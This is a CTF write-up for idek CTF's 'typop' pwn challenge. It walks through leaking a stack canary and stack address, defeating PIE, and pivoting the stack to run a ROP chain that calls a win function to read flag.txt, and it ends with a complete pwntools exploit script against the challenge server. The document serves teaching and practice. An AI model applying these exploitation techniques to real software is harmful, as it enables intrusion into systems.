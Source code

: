 <pre style="font-size: 0.6rem; text-align: center">
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@#PPGPB@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@&?   .J&@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@B~   :P@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@Y.   7#@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@#7   .Y@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@P^   ~G@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@&J    ?&@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@&J    ?&@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@P^   ~G@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@#7   .Y@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@Y.   7#@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@B~   :P@@@@@@@@@#55555555555555G@@@@@@@@@@@@@
@@@@@@@@@@@@@&?   .J&@@@@@@@@@@Y              ~@@@@@@@@@@@@@
@@@@@@@@@@@@@#PPGPB@@@@@@@@@@@@#PGGGGGGGGGGGGPB@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
</pre>

---

This was a pwn challenge rated with 408 points in idek CTF.
The instructions said:

> While writing the feedback form for idekCTF, JW made a small typo. It still compiled though, so what could possibly go wrong?

This binary involved handling canary and PIE protections and, in the way I solved it, stack pivoting.

---

This is a very small binary with only a couple of functions. Let's run it first to see what would be the normal output:

<img src="/./assets/imgs/typop_exec.png">

As we can see, we provide the answer to some questions and we can overflow the stack easily. 

Let's take a look at the disassembly and see the main function:

<img src="/./assets/imgs/typop_main.png">

As we expected, it `puts` the first question and `getchar` the response. If it's 0x79 or 'y', then it continues and calls `getFeedback`. If not, it exits. 

Let's inspect `getFeedback`:

<img src="/./assets/imgs/typop_getfeedback.png">

We can quickly see where the overflow is. The `buf` to which we write is in $rbp-0x12 and in the first question already reads 0x1e. After that, it reads 0x5a, overflowing the stack.

The first thing we need to defeat is the canary. The answer to the second question is what gets replied to us. We can use this to print the canary by providing the exact amount of characters to concatenate the canary like so:

| 00  | 01  | 02  | 03  | 04  | 05  | 06  | 07  | 08  | 09  | 0a  | 0b  | 0c  | 0d  | 0e  | 0f  |
|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|
| 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | AA  | AA  |
| AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | CAN | CAN | CAN | CAN | CAN | CAN | CAN | CAN |
| RBP | RBP | RBP | RBP | RBP | RBP | RBP | RBP | RSP | RSP | RSP | RSP | RSP | RSP | RSP | RSP |

A \n char will be added at the end so it will be:

| 00  | 01  | 02  | 03  | 04  | 05  | 06  | 07  | 08  | 09  | 0a  | 0b  | 0c  | 0d  | 0e  | 0f  |
|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|
| 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | AA  | AA  |
| AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | 0a  | CAN | CAN | CAN | CAN | CAN | CAN | CAN |
| RBP | RBP | RBP | RBP | RBP | RBP | RBP | RBP | RSP | RSP | RSP | RSP | RSP | RSP | RSP | RSP |

Therefore we will rely on the chances of the canary ending up in 0x00. It will reply something like: `AAAAAAAAAAA\xAB\xCD\xEF\x0a...` with the last part being the canary, until it founds a \x00.

> One important thing to consider is that the canary is the same during the whole execution and therefore dumping it once will allow to reuse it

Now that we have the canary, we can overflow rbp and rsp to control execution. But what can we do with what? PIE is enabled and we don't know what the offset is.

But, we cano d the same technique again to dump rsp value because `getFeedback` is executed in a loop in main. In this case, it would look like:

| 00  | 01  | 02  | 03  | 04  | 05  | 06  | 07  | 08  | 09  | 0a  | 0b  | 0c  | 0d  | 0e  | 0f  |
|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|
| 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | AA  | AA  |
| AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  |
| AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | 00  | RSP | RSP | RSP | RSP | RSP | RSP | RSP |

We don't really care about the last bytes of rsp, we only want the offset. But with that we can control the execution. 

The target of this pwn challenge is to call win:

<img src="/./assets/imgs/typop_win.png">

This function will take 3 arguments, each of those a char, which will be concatenated to 'g.txt'. As we can see in the attachments, flag.txt is the name of the flag. Therefore, we can send 'f', 'l' and 'a' as the arguments, read the contents and have everything dumped. For that we can do ROP: find the gadgets, add the offset and get everything in the right registers.

But after running [ROPGadget](https://github.com/JonathanSalwan/ROPgadget) we can see that there is no way to pop a value to `rdx` and therefore we can't control the last argument. 

Let's change the approach. The filename is loaded from a string in $rbp-0x4a. The mode is hardcoded so we don't have to worry about that.

We know we can control rbp so we can do a stack pivot and then jump exactly to where the filename is loaded from rbp, in 0x000012ac. We are dumping the old $rbp when we dump the canary. We can substract 0x200 (or any value really) to get an empty area as our new fake stack.

Then we can write a string to that area by calling `read`. We can control rdi (stdin, \x00), rsi (where to write) and call `read`. We can't control rdx (the amount of bytes to read) but that would be 0x5a from previously calling `read` in `getFeedback`. 

So the exploit will work like this:

1. Do a first run of `getFeedback` to get the canary
2. Leave $rpb and $rsp as it is on the second question and provide the right canary.
2. Do a second run of `getFeedback` and get $rsp to get the offset. 
3. Provide the canary, overflow $rbp with the new stack value and $rsp to do the ROP: the `pop rdi` gadget, `\x00` * 8  (stdin value is 0), the `pop rsi; pop r15` gadget, the address where to write (our new stack address - 0x4a), `\x00` * 8 for the `pop r15`, the address of `read` and finally the exact position we want in `win`.

With that, we can craft the exploit:

```python
from pwn import *
import time

#b = process('./chall')
b = remote("typop.chal.idek.team", 1337)
#gdb.attach(b,  gdbscript='b *getFeedback+178')
#gdb.attach(b,  gdbscript='b *win+220')

def parse_addresses(data):
    stack_address = data[8:]
    stack_address = stack_address + b'\x00' * (8 - len(stack_address))

    canary = data[1:8]
    canary = b'\x00' * (8 - len(canary)) + canary
    return stack_address, canary

def parse_rsp(data):
    rsp = data
    rsp = rsp + b'\x00' + b'\x00' 
    return rsp

b.info(b.recvuntil(b'?\n'))
b.send(b'y\n')
b.info(b.recvuntil(b'?\n'))
b.send(b'AAAAAAAAAA\n')

data = b.recvuntil(b'Aww')[20:-4]
b.recvuntil(b'?')

stack_address, canary = parse_addresses(data)
canary = u64(canary)
b.info(str(hex(canary)))

b.send(b'B'*10 + p64(canary))
b.info(b.recvuntil(b'?\n'))
b.send(b'y\n')
b.info(b.recvuntil(b'?\n'))
b.send(b'AAAAAAAAAAAAAAAAAAAAAAAAA\n')

data = b.recvuntil(b'Aww')[36:-4]
b.recvuntil(b'?')

rsp = parse_rsp(data)
b.info(str(len(rsp)))
rsp = u64(rsp)
b.info(str(hex(rsp)))

base_address = rsp - 5191
win = rsp - 510
pop_rdi = 0x00000000000014d3
pop_rsi_r15 = 0x00000000000014d1
ret = 0x000000000000101a
pop_rsp = 0x00000000000014cd
new_stack_address = p64( u64(stack_address) - 0x2000)
b.send(b'B'*10 + p64(canary) + new_stack_address + p64(pop_rdi + base_address)  + b'\x00' * 8 +  p64(pop_rsi_r15 + base_address) + p64(u64(new_stack_address) - 0x4a) + b'\x00' * 8 +  p64(base_address - 784 + 5136) + p64(win + 99))

time.sleep(2)
b.send(b'flag.txt')

print(b.recvuntil(b'\n'))
b.interactive()

```

<img src="/./assets/imgs/typop_solved.png">
